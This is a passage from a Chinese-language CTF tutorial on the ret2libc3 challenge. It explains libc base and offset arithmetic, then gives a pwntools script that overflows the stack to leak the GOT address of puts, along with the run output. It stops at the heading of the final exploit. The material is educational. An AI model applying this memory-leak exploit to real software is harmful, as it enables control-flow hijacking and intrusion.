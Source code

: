 两个都没有，所以只能自己找

4、泄露地址

libc.so动态链接库里的函数的偏移是固定的，system函数是属于libc的，而且libc中也有/bin/s；每个libc.so中的函数偏移是固定的，libc版本不同，偏移不同。找到libc版本，即可知道每个函数在这个libc文件的偏移量。

**libc基地址 + 函数偏移量 = 函数真实地址**

所以我们目前需要：程序中某个函数的真实地址——>libc版本——>libc基地址

那么如何能够得到一个函数的真实地址呢？

采用got表泄露，got表里存放着就是函数的真实地址，如果函数运行过一遍，里面存放的就是函数的真实地址，如果没有运行，就需要先动态链接重定位，这个过程请详见**动态链接**部分。

观察上面程序，我们的目的是要通过输入使栈溢出从而泄露某个函数的真实地址，而在gets函数之前执行的有puts函数，所以当我们输入值的时候got表中已近有puts函数的真实地址。

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')

puts_got_addr = e.got['puts']   #得到puts函数的got地址，这个地址存放着puts函数真实的地址，需要泄露的地址
puts_plt_addr = e.plt['puts']   #需要借助puts函数将泄露的地址返回给我们
main = e.symbols['main']        #在调用完puts函数将泄露地址返回给我们后，使程序回到main函数，重新栈溢出

payload = ''
payload += 'A'*112              #填充数据，即需要输入的数据
payload += p32(puts_plt_addr)   #原先这里是gets函数执行完后的返回地址，现覆盖返回地址为puts函数执行地址
payload += p32(main)            #按照上一步，这里应该为puts函数的返回地址，覆盖为main函数的地址
payload += p32(puts_got_addr)   #这里是puts函数的参数
#payload = flat(['A' * 112, puts_plt_addr, main, puts_got_addr])#或者使用这一行代替上面的5行

p.sendlineafter('Can you find it !?', payload)  #表示接收到这些字符串再发送payload

puts_rel_addr = u32(p.recv()[0:4])  #将地址输出出来后再解包，此时就得到了puts函数的真实地址
print hex(puts_rel_addr)
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 75942
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7ddf150
[*] Stopped process './ret2libc3' (pid 75942)
```

得到了puts函数的真是地址为0xf7ddf150

5、exp
